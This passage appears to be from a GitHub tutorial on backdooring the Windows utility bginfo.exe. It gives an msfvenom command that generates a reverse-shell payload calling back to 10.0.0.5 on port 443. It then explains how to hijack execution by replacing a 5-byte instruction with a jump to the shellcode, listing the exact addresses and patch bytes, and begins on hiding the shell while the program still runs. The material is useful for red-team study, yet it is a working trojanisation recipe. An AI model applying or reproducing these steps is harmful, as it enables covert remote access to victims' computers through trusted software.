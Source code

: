 ```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```
  <li>Note the ESP value and the end of shellcode execution - this is related to point 4 and 7</li>
  <li>Restore the stack pointer ESP to what it was after the shellcode executed <em><strong>pushad</strong></em> and <em><strong>pushfd</strong></em> as explained in step 3, with . This is where ESPs from point 4 and 7 comes in to play <em><strong>add esp, <ESP_POST_SHELLCODE - ESP_PRE_SHELLCODE></strong></em></li>
  <li>Restore registers with <em><strong>pushfd</strong></em> and <em><strong>pushad</strong></em></li>
  <li>Append the shellcode with the instruction we had overwritten in step 1</li>
  <li>Restore code execution back to bginfo by jumping back to the next instruction after the owerwritten one as explained in 1.3</li>
</ol>

# Overwriting 5 byte Instruction

Let's now hijack the bginfo.exe code execution flow by overwriting any instruction that is 5 bytes in size - again - this is how many bytes we need for a ```jmp address``` instruction.

One of the first 5-byte instructions we can see is ```mov edi, bb40e64e``` at 00467b29:

> [!WARNING]
> We are about to overwrite the instruction ```mov edi, 0xbb40e64e``` at 00467b29, hence we need to remember it for later as explained in 1.2.

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/7214612e-9786-4419-b82c-a822d84465d3)

Let's overwrite the instruction at 00467b29 with an instruction ```jmp 0x004d8000``` which will make the bginfo jump to our shellcode located at 0x004d8000 when executed:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/894398fd-0cbd-4ae9-a1c4-06214b66d6fd)

> [!WARNING]
> Remember the address of the next instruction after 0046b29, which is 0467b2e - this is the address we will jump back after the shellcode has executed in order to resume bginfo.

There are multiple ways to overwrite the instructions at 00467b29 - either assemble the bytes using a debugger or patch the binary via a hex editor which is what I did. I found the bytes ```bf 4e e6 40 bb``` (bytes found at 00467b29 when bginfo is in memory) in the bginfo.exe (screenshot below) and replaced them with bytes ```e9 d2 04 07 00``` which translates to jmp ```bgfinfo.d48000``` (jump to our shellcode, above screenshot).

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/be4cb830-3d6a-44ad-ad9e-31734d5dcf52)

Below shows how the code redirection works and we jump to 4d8000 (shellcode) location once we hit the instruction at 00467b29:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/c23f99af-ba16-4ae6-8798-66fa4e7a8657)

If we try running the patched binary now, we can see it results in a reverse shell, however the bginfo.exe itself is not visible - we will need to fix that:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/b46499da-d3ac-41f0-a283-cb7433df9313)

# Patching Shellcode

## Patching WaitForSingleObject

```